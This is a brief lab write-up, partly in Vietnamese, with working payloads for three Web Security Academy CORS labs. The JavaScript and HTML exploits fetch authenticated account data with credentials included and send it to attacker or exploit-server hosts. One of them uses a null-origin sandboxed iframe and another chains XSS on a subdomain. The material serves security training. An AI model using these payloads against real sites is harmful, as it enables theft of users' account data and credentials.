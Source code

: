 
1.CORS vulnerability with basic origin reflection
```js
<script>
fetch('https://vuln.web-api', {credentials:'include'})
  .then(r => r.text())
  .then(data => {
    return fetch('attacker_server/?api=' + encodeURIComponent(data));
  });
</script>
```

2.CORS vulnerability with trusted null origin
Exploit server:
```html
<iframe
  sandbox="allow-scripts allow-top-navigation allow-forms"
  src="data:text/html,<script>
    fetch('https://0acf00e103f197518005122e006b004f.web-security-academy.net/accountDetails', {credentials:'include'}) .then(r => r.text()) .then(data => { return fetch('https://exploit-0ac40095035497ba80b3113d01f50035.exploit-server.net/?api=' + encodeURIComponent(data)); });
  </script>"
></iframe>;
```

3.CORS vulnerability with trusted insecure protocols
Kịch bản lần này sẽ là dựa vào 1 subdomain có lỗ hổng xss rồi từ đó thực hiện fetch COR tới trang và lấy dữ liệu.

Đoạn script lấy dữ liệu api.
```js
<script>
fetch('https://vuln.web-api', {credentials:'include'})
  .then(r => r.text())
  .then(data => {
     fetch('attacker_server/?api=' + encodeURIComponent(data));
  });
</script>
```


Tôi không hiểu sao nhưng bài này dùng XHR mới được
```html
<html>
    <head>
        <title>CORS-3</title>
    </head>
    <body>
        <script>
            document.location="http://stock.0a2f00a40350fcf1c11785b000d500ee.web-security-academy.net/?productId=<script>var req = new XMLHttpRequest();req.onload = reqListener; req.open('get','https://0a2f00a40350fcf1c11785b000d500ee.web-security-academy.net/accountDetails',true); req.withCredentials = true; req.send(); function reqListener() { location='https://exploit-0a930014030dfc71c11e84f601550032.exploit-server.net/log?data='%2bthis.responseText; };;%3c/script>&storeId=1"
        </script>
    </body>
</html>
```